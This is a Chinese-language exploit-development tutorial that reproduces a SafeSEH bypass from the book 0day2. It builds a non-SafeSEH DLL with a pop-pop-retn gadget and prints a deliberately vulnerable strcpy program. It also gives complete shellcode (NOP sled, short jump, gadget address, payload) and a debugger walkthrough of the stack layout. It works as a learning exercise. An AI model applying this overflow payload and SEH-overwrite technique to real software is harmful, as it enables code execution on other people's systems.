



Author：wnagzihxain
Mail：tudouboom@163.com
当异常处理函数位于加载模块内，但是未启用SafeSEH，而且不是仅包含IL，校验函数就会通过校验
那接下来我们就可以构造一个dll，利用里面的指令来实现跳转
先来创建一个DLL工程
然后接下来的一步选择“一个简单的DLL工程”就行了
代码如下
// SEH_NoSafeSEH_JUMP.cpp : Defines the entry point for the DLL application.
//
#include "stdafx.h"
BOOL APIENTRY DllMain( HANDLE hModule,DWORD ul_reason_for_call, LPVOID lpReserved)
{
return TRUE;
}
void jump()
{
__asm{
pop eax
pop eax
retn
}
}
生成Release版本，同时因为VC编译的DLL文件默认加载基址是0x10000000，为了防止地址中的00在赋值shellcode的时候造成截断，所以我们手动修改一下起始加载基址
点击工程-设置-连接->最下面加上/base:"0x11120000"，但是要注意一点，最后面要加一个空格和后面的item隔开，不然link的时候会出错！！！！！！

好了然后编译生成DLL就行了，我们来Load进OD看一下
红色的OFF是未启用SafeSEH的模块，可以用于跳板
绿色的ON是启用SafeSEH的模块
绿色的NoSEH的意思是不支持S.E.H，异常直接忽略
起始还有一种Error，但是这里没有显示出来

到这里已经准备好了未启用SafeSEH的模块
接下来就来分析一下《0day2》上的代码
#include "stdafx.h"
#include <string.h>
#include <windows.h>
char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x12\x10\x12\x11"//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;
DWORD MyException(void)
{
printf("There is an exception");
getchar();
return 1;
}
void test(char* input)
{
char str[200];
strcpy(str, input);
int zero = 0;
__try
{
zero = 1/zero;
}
__except(MyException())
{}
}
int main()
{
HINSTANCE hInst = LoadLibrary(TEXT("1.dll"));//load No_SafeSEH module
char str[200];
__asm int 3
test(shellcode);
return 0;
}
先加载了我们刚才写的DLL，然后一个test函数，test函数里面明显一个缓冲区溢出，溢出后除0触发异常处理，不过这里是用try的形式添加了一个异常处理
主要分析一下shellcode溢出的具体情况，try{}在栈中形成的异常处理肯定是所有异常处理里最靠近ESP的，所以我们来利用这个异常处理，选择未启用SafeSEH的模块当跳板那是很明确的了
但是为什么要使用pop pop retn呢？为什么要在后面跟8字节的\x90呢？
这些得在调试中慢慢分析
我们用VS2005编译，禁用优化，生成Release版本
然后把DLL文件放到EXE同一文件夹下，然后双击运行，碰到断点中断，附加OD调试，OllySSEH插件看模块情况，如下图

好了接下来单步走，跟进test函数
跟进来后点击View看SEHchain
此时还没有加入try的异常处理，所以现在只有两个异常处理

往下走就会看到增加我们的try{}的SEH指针
接下来找一下我们编译的DLL里pop pop retn序列
我的在0x11121010，所以修改上面的代码覆盖SEH指针的部分为0x11121010
来编译看看是什么效果
左上角就是我们需要使用的跳板了，注意栈布局，可以看出来我们pop掉上面两个，就会retn到nextSEH，nextSEH就在SEH-4的位置
这个以前的调试里有讲过，在进行异常处理的时候，会先把nextSEH的指针压栈，然后压进去两个现场相关的参数
补充一下，这个SEH就是我们使用try{}而生成的，也就是刚刚说的第三个SEH

我们跟着单步走，来到nextSEH开始的地方

当retn到nextSEH的时候，因为nextSEH处是\x90，所以就顺着滑到shellcode，cld开始就是shellcode
但是在滑行的过程中会遇到SEH处填充的内容，所以为了保证没有影响，现在我们来处理一下使滑到shellcode的过程更完美
将nextSEH处的填充内容修改为\xEB\x0E\x90\x90
重新编译来看看
其实这句话的意思就是retn到nextSEH的时候加个jmp，跳过下面的SEH，这样我们就完美的跳到shellcode的起始位置执行shellcode了

现在修改的代码如下
#include "stdafx.h"
#include <string.h>
#include <windows.h>
char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\xEB\x0E\x90\x90"//jump
"\x10\x10\x12\x11"//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";
DWORD MyException(void)
{
printf("There is an exception");
getchar();
return 1;
}
void test(char * input)
{
char str[200];
strcpy(str, input);
int zero = 0;
__try
{
zero = 1/zero;
}
__except(MyException())
{}
}
int main()
{
HINSTANCE hInst = LoadLibrary(TEXT("1.dll"));//load No_SafeSEH module
char str[200];
__asm int 3
test(shellcode);
return 0;
}
其实到这里就已经调试完了
但是为什么要在shellcode前面加上8字节的\x90呢？
这就需要来讲一下try{}这东西了
来读读test函数的汇编
00401750 > 55 push ebp
00401751 8BEC mov ebp, esp
00401753 6A FE push -2 ; 在ss:[ebp-4]处赋值-2，关键1
00401755 68 48224000 push 00402248
0040175A 68 15164000 push _except_handler4
0040175F 64:A1 00000000 mov eax, dword ptr fs:[0]
00401765 50 push eax
00401766 81C4 28FFFFFF add esp, -0D8
0040176C A1 00304000 mov eax, dword ptr [__security_cookie] ; Security Cookie
00401771 3145 F8 xor dword ptr [ebp-8], eax
00401774 33C5 xor eax, ebp
00401776 8945 E0 mov dword ptr [ebp-20], eax
00401779 53 push ebx
0040177A 56 push esi
0040177B 57 push edi
0040177C 50 push eax
0040177D 8D45 F0 lea eax, dword ptr [ebp-10]
00401780 64:A3 00000000 mov dword ptr fs:[0], eax
00401786 8965 E8 mov dword ptr [ebp-18], esp
00401789 8B45 08 mov eax, dword ptr [ebp+8]
0040178C 50 push eax
0040178D 8D8D 18FFFFFF lea ecx, dword ptr [ebp-E8]
00401793 51 push ecx
00401794 E8 77F8FFFF call strcpy ; jmp to MSVCR80.strcpy
00401799 83C4 08 add esp, 8
0040179C C745 E4 0000000>mov dword ptr [ebp-1C], 0
004017A3 C745 FC 0000000>mov dword ptr [ebp-4], 0 ; 将ss:[ebp-4]处修改为0，原本为-2，重点就在这，关键2
004017AA B8 01000000 mov eax, 1 ; 赋值eax为1
004017AF 99 cdq
004017B0 F77D E4 idiv dword ptr [ebp-1C] ; 除0
004017B3 8945 E4 mov dword ptr [ebp-1C], eax
004017B6 C745 FC FEFFFFF>mov dword ptr [ebp-4], -2 ; 将ss:[ebp-4]的值恢复-2，关键3
004017BD EB 10 jmp short 004017CF ; 如果顺利运行的话就跳过try自带异常处理
004017BF E8 6CFFFFFF call MyException ; 如果异常则执行自带异常处理
004017C4 C3 retn ; 异常处理完就返回
004017C5 8B65 E8 mov esp, dword ptr [ebp-18]
004017C8 C745 FC FEFFFFF>mov dword ptr [ebp-4], -2
004017CF 8B4D F0 mov ecx, dword ptr [ebp-10]
004017D2 64:890D 0000000>mov dword ptr fs:[0], ecx
004017D9 59 pop ecx
004017DA 5F pop edi
004017DB 5E pop esi
004017DC 5B pop ebx
004017DD 8B4D E0 mov ecx, dword ptr [ebp-20] ; 校验Security Cookie
004017E0 33CD xor ecx, ebp
004017E2 E8 19F8FFFF call __security_check_cookie
004017E7 8BE5 mov esp, ebp
004017E9 5D pop ebp
004017EA C3 retn
从代码中可以看出来，关键1是在函数开始的时候压栈的，也就是在Security Cookie生成之前，然后碰到一个try{}，在关键2可以看到，修改为0
当退出的到时候，在关键3的位置，修改回-2，这个数字有一个功能是用于标记当前到了哪个try，应该使用哪个异常处理
上面我们知道，它的位置是ss:[ebp-4]，我们重新去看看整个布局的情况还有SEH的位置
走完布置SEH的指令，可以看到右下角SEH，离-2有4字节，所以如果我们直接将shellcode跟在跳板后面，这个位置就会被破坏
所以我们用\x90来填充，也就是上面代码的8字节\x90